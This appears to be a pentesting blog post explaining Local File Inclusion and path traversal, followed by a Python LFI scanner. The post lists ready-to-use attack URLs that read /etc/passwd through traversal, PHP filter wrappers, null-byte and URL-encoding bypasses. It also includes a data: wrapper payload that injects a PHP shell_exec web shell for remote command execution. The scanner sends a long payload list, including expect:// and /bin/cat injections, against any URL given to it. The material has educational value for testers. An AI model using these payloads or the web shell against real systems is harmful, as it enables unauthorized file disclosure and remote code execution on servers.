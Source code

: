 ```yaml
---
layout: single
title:  Local  File  Inclusion and  Directory  Path Traversal
date: 2023-03-05
classes: wide
header:
  teaser: /assets/images/htb-writeup-smasher/smasher.png
categories:
  - LFI
  - pentesting
  - bypass
tags:
  - LFI
  - pentesting
  - bypass
---
```

## Author  -  IRVING ST  -  (Comandre-ex)
LFI (Local File inclusion) is a web vulnerability that will allow attackers to load files resident on the machine through a GET parameter

## Examples

``` ruby
url -> http://example.com/index.php?filename=img.png 
url -> http://example.com/index.php?file=img.png
url -> http://example.com/index.php?p=img.png
url -> http://example.com/index.php?f=img.png
```

We see a GET parameter that is loading an image. But if instead of pointing to the png we try to point to a file resident on the victim machine like /etc/passwd? imagining that the server is a linux-based system.


``` ruby 
url -> http://example.com/index.php?filename=/etc/passwd
url -> http://example.com/index.php?file=/etc/passwd
url -> http://example.com/index.php?p=/etc/passwd
url -> http://example.com/index.php?f=/etc/passwd
```

If the input is not well sanitized we can see the content of ```/etc/passwd```


In this vulnerability we can concatenate what is called a ```Directory path traversal```. This vulnerability allows us to revert directories. In other words, we have a file in a fixed path that resides at ```/home/images/image.png``` and if we tried to load ```/etc/passwd``` this couldn't be done as it would look like this: ```/ home/image/image.png/etc/passwd```
## Examples

``` ruby
url -> http://example.com/index.php?filename=../../../../../..<file path>
path>

url -> http://example.com/index.php?filename=../../../../../../etc/passwd
url -> http://example.com/index.php?file=../../../../../../../etc/passwd
url -> http://example.com/index.php?p=../../../../../../../../etc/passwd
url -> http://example.com/index.php?f=../../../../../../../../etc/passwd
```
 
##  Wrappers 

It is a function provided by programming languages that allow us to interact with system resources or functions.

#### wrapper  file

``` ruby 
url -> http://example.com/index.php?filename=file//<file path>

url -> http://example.com/index.php?filename=file:///etc/passwd
url -> http://example.com/index.php?file=file:///etc/passwd
url -> http://example.com/index.php?p=file:///etc/passwd
url -> http://example.com/index.php?f=file:///etc/passwd
```

#### Wrapper Base64  Encode

This wrapper allows you to encode the content in Base64 since many times due to the size of the file it does not show it to you.

``` ruby
url -> http://example.com/index.php?filename=php://filter/convert.base64-encode/resource=<file path>
path>
url -> http://example.com/index.php?filename=php://filter/convert.base64-encode/resource=/etc/passwd
url -> http://example.com/index.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
url -> http://example.com/index.php?p=php://filter/convert.base64-encode/resource=/etc/passwd
url -> http://example.com/index.php?f=php://filter/convert.base64-encode/resource=/etc/passwd
```

#### Rot13 Encode

This wrapper allows you to encode the content in Rot13 since many times due to the size of the file it does not show it to you.

``` ruby
url -> http://example.com/index.php?filename=php://filter/read=string.rot13/resource=<file path>

url -> http://example.com/index.php?filename=php://filter/read=string.rot13/resource=/etc/passwd
url -> http://example.com/index.php?file=php://filter/read=string.rot13/resource=/etc/passwd
url -> http://example.com/index.php?p=/etc/passwd
url -> http://example.com/index.php?f=php://filter/read=string.rot13/resource=/etc/passwd
```

#### Wrapper  Data
This wrapper allows you to include external data. Among them malicious code php. This can already give us command execution remotely.


``` ruby 
url -> http://exmaple.com/index.php?filename=data:text/plain,<php code>

url -> http://example.com/index.php?filename=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
url -> http://example.com/index.php?file=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
url -> http://example.com/index.php?p=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
url -> http://example.com/index.php?f=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
```

### Bypass filters  

In this part we will see the evasion of possible filters.

#### NULL BYTE

The first one that we will see is the ```NULL BYTE```. This technique is used since it may be defined by code that concatenates an extension. An example would be that it is defined that it drags the ```.py``` extension so you try to load the ```/etc/passwd``` but the filter will add the ```.py``` extension so it would look like this ```/etc/passwd.py```

``` ruby 
url -> http://example.com/index.php?filename=../../../../../../etc/passwd%00
url -> http://example.com/index.php?file=../../../../../../../etc/passwd%00
url -> http://example.com/index.php?p=../../../../../../../../etc/passwd%00
url -> http://example.com/index.php?f=../../../../../../../../etc/passwd%00
```

#### URL ENCODE

In this article we will see the application of the url encode in the url


``` ruby 
url -> http://example.com/index.php?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
url -> http://example.com/index.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
url -> http://example.com/index.php?p=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
url -> http://example.com/index.php?f=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

Finally I share a scanner to detect Local File Inclusion. Echo in python


``` python
#!/usr/bin/env python3
# Author - comandre-ex - IRVING S

from colorama import Fore, Style
from pwn import *
import time, sys, signal, string, requests, cmd
from bs4 import BeautifulSoup


def def_handler(sig, frame):
    log.failure(Fore.RED + Style.BRIGHT + "Exiting...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


#  Payloads...
local_file_inclusion = [             
        "/etc/passwd%2500", "/etc/passwd%00", "/etc/passwd", "///etc///passwd%2500", "///etc///passwd%00", "///etc///passwd", "../etc/passwd%2500", "../etc/passwd%00", "../etc/passwd", "..///etc///passwd%2500", "..///etc///passwd%00", "..///etc///passwd", "..///..///etc///passwd%2500", "..///..///etc///passwd%00", "..///..///etc///passwd", "..///..///..///etc///passwd%2500", "..///..///..///etc///passwd%00", "..///..///..///etc///passwd", "..///..///..///..///etc///passwd%2500", "..///..///..///..///etc///passwd%00", "..///..///..///..///etc///passwd", "..///..///..///..///..///etc///passwd%2500", "..///..///..///..///..///etc///passwd%00", "..///..///..///..///..///etc///passwd", "..///..///..///..///..///..///etc///passwd%2500", "..///..///..///..///..///..///etc///passwd%00", "..///..///..///..///..///..///etc///passwd", "..///..///..///..///..///..///..///etc///passwd%2500", "..///..///..///..///..///..///..///etc///passwd%00", "..///..///..///..///..///..///..///etc///passwd", "../../etc/passwd%2500", "../../etc/passwd%00", "../../etc/passwd", "../../../etc/passwd%2500", "../../../etc/passwd%00", "../../../etc/passwd", "../../../../etc/passwd%2500", "../../../../etc/passwd%00", "../../../../etc/passwd", "../../../../../../etc/passwd%2500", "../../../../../../etc/passwd%00", "../../../../../../etc/passwd", "../../../../../etc/passwd%00", "../../../../../etc/passwd", "../../../../../../../etc/passwd%2500", "../../../../../../../etc/passwd%00","../../../../../../../etc/passwd%00", "../../../../../../../etc/passwd", "../../../../../../../../etc/passwd%2500", "../../../../../../../../etc/passwd%00", "../../../../../../../../etc/passwd", "\etc\passwd%2500", "\etc\passwd%00", "\etc\passwd", "..\etc\passwd%2500", "..\etc\passwd%00", "..\etc\passwd", "..\..\etc\passwd%2500", "..\..\etc\passwd%00", "..\..\etc\passwd", "..\..\..\etc\passwd%2500", "..\..\..\etc\passwd%00", "..\..\..\etc\passwd", "..\..\..\..\etc\passwd%2500", "..\..\..\..\etc\passwd%00", "..\..\..\..\etc\passwd", "..\..\..\..\..\etc\passwd%2500", "..\..\..\..\..\etc\passwd%00", "..\..\..\..\..\etc\passwd", "..\..\..\..\..\..\etc\passwd%2500", "..\..\..\..\..\..\etc\passwd%00", "..\..\..\..\..\..\etc\passwd", "%00../../../../../../etc/passwd", "%00/etc/passwd%00", "%0a/bin/cat%20/etc/passwd", "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd", "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd", "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd", "\'/bin/cat%20/etc/passwd\'", "/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd", "/..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../etc/passwd", "/etc/default/passwd","././././././././././././etc/passwd",".//.//.//.//.//.//.//.//.//.//.//.//etc//passwd", "/./././././././././././etc/passwd", "/../../../../../../../../../../etc/passwd", "/../../../../../../../../../../etc/passwd^^", "/../../../../../../../etc/passwd", "/etc/passwd", "../../../../../../../../../../../../etc/passwd", "../../../../../../../../etc/passwd", "../../../../../../../etc/passwd", "../../../../../../etc/passwd", "../../../../../etc/passwd","../../../../etc/passwd" , "../../../etc/passwd" , "../../etc/passwd" , "../etc/passwd", "../../../../../../../../../../../etc/passwd" , ".\./.\./.\./.\./.\./.\./etc/passwd","\..\..\..\..\..\..\..\..\etc\passwd","etc/passwd", "/etc/passwd%00", "../../../../../../../../../../../../etc/passwd%00","../../../../../../../../../../../etc/passwd%00", "../../../../../../../../../../etc/passwd%00", "../../../../../../../../../etc/passwd%00", "../../../../../../../../etc/passwd%00", "../../../../../../../etc/passwd%00", "../../../../../../etc/passwd%00", "../../../../../etc/passwd%00", "../../../../etc/passwd%00", "../../../etc/passwd%00","../../etc/passwd%00", "../etc/passwd%00", "\..\..\..\..\..\..\..\..\etc\passwd%00", "..\..\..\..\..\..\..\..\..\..\etc\passwd%00", "../..\..\..\..\..\..\..\..\..\..\etc\passwd%00", "/../../../../../../../../../../../etc/passwd%00.html", "/../../../../../../../../../../../etc/passwd%00.jpg", "../../../../../../etc/passwd&=%3C%3C%3C%3C", "..2fetc2fpasswd", "..2fetc2fpasswd%00", "..2f..2fetc2fpasswd", "..2f..2fetc2fpasswd%00", "..2f..2f..2fetc2fpasswd", "..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%255cboot.ini", "%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/boot.ini", "..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/boot.ini", "../..\../..\../..\../..\../..\../boot.ini", "file:///etc/passwd",
        "php://filter/convert.base64-encode/resource=../../../../../etc/passwd", "expect://ls"
        ]


class ExploitingDate(cmd.Cmd):
    prompt = "(Demon CMD) "
    url = ''
    type_vulnerability = ''
    vulnerability_types = ['lfi']

    def do_set(self, arg):
        args = arg.split()
        if len(args) != 1:
            print('Error: set requires one argument (type of vulnerability)')
            return
        vuln_type = args[0]
        if vuln_type == 'lfi':
            self.type_vulnerability = 'lfi'
            print('Type of vulnerability set to LFI')
        else:
            print(f'Error: invalid type of vulnerability {vuln_type}')
        # solicitar la URL
        self.url = input('Enter the URL to scan: ')

    def do_show(self, arg):
        if arg == 'options':
            print('type_vulnerability')
        elif arg == 'values':
            print(f'type_vulnerability: {self.type_vulnerability}')
        else:
            print(f'Error: invalid argument {arg}')

    def do_exit(self, arg):
        return True

    def help(self):
        print('Available vulnerabilities: %s' % ', '.join(self.vulnerability_types))
        print('Required data:')
        print(' - url: URL of the website to scan')
        print(' - type_vulnerability: Type of vulnerability to scan')

    
    # Functions escaning
    def local_file_inclusionScanning(self):
        p2 = log.progress(Fore.WHITE + Style.BRIGHT + "Payload  Injectado  :")
        for Payloads in local_file_inclusion:
            main_url = self.url + Payloads
            response = requests.get(main_url)
            p2.status(Fore.WHITE + "%s" % Payloads)

            if "root" in response.text or "www-data" in response.text or "/usr/bin/zsh" in response.text or "/usr/bin/bash" in response.text:
                log.failure(Fore.WHITE + "Servidor vulnerable a Local file inclusion y path traversal.  Payload  Injectado: %s  " % Payloads)
            else:
                pass
    def run(self):
        if self.type_vulnerability == 'lfi':
            self.local_file_inclusionScanning()
    
    def do_run(self, arg):
        self.run()



if __name__ == '__main__':
    ExploitingDate().cmdloop()
```